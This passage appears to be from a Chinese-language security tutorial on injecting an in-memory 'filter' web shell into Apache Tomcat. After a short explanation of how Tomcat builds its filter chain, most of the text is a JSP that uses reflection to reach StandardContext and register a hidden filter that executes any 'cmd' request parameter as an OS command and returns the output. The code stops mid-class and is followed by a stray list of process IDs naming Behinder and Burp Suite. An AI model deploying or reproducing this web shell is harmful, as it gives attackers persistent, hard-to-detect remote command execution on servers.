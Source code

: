 1. 遍历context中的`FilterMaps`，如果它的url-pattern和当前的path匹配，就去找相应的filterConfig的加入到filterChain的filters里面。
2. 将filters中的filterConfig取出，得到Filter然后调用它的doFilter。



因此想要实现Filter的内存注入，就是要得到当前的`StandardContext`，然后把`FilterMaps`，`FilterDefs`和`FilterConfigs`注入进去即可。



构造如下：

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    ServletContext servletContext = request.getServletContext();
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletContext;
    Field applicationContextFacadeContext = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextFacadeContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeContext.get(applicationContextFacade);
    Field applicationContextContext = applicationContext.getClass().getDeclaredField("context");
    applicationContextContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) applicationContextContext.get(applicationContext);

    Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigs.setAccessible(true);
    HashMap hashMap = (HashMap) filterConfigs.get(standardContext);
    String filterName = "ego";
    if (hashMap.get(filterName)==null){

        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                //Filter.super.init(filterConfig);
                //System.out.println("内存马init");
            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                if (request.getParameter("cmd")!=null){
                    //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
                    String[] cmds = {"cmd","/c",request.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    byte[] bcache = new byte[1024];
                    int readSize = 0;
                    try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                        while ((readSize =in.read(bcache))!=-1){
                            outputStream.write(bcache,0,readSize);
                        }
                        response.getWriter().println(outputStream.toString());
                    }
                }
```

  [2]: 22768 org.jetbrains.jps.cmdline.Launcher
  [3]: 24208 org.jetbrains.idea.maven.server.RemoteMavenServer36
  [4]: 2832 Behinder.jar
  [5]: 22808
  [6]: 5816 burpsuite_pro_v2021.8.jar
  [7]: 23436 org.jetbrains.jps.cmdline.Launcher
  [8]: 4092